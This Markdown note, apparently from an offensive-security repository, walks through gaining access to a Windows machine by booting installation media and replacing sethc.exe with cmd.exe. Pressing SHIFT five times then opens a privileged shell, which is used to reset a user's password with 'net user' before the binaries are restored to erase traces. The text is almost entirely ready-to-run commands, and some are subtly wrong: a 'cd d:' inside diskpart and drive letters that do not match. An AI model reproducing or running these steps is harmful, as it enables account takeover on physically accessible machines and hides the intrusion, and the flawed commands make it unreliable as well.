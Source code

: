 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - password-cracking
  - living-off-the-land
  - windows
---
```

# Living off the Land

Press SHIFT + F10 to open a command prompt.

TODO: include screenshots

Enumerate the partitions.

```
X:\Sources> diskpart.exe

DISKPART> list volume
```

Select the main partition. You'll easily notice it has at least gigabytes of size.

```
DISKPART> cd d:

DISKPART> exit
```

backup the binary

```
X:\Sources> d:

D:\> copy C:\Windows\system32\sethc.exe C:\Windows\system32\sethc.bak

D:\> copy /y C:\Windows\system32\cmd.exe C:\windows\system32\sethc.exe
```

Reboot then press **SHIFT** key 5 times. Then reset the password.

```
C:\> net user

C:\> net user <current_account> <new_password>
```

Revert the binaries to clear traces ahead of time.

```
C:\> copy /y C:\Windows\system32\sethc.bak C:\Windows\system32\sethc.exe

C:\> del /f C:\Windows\system32\sethc.bak
```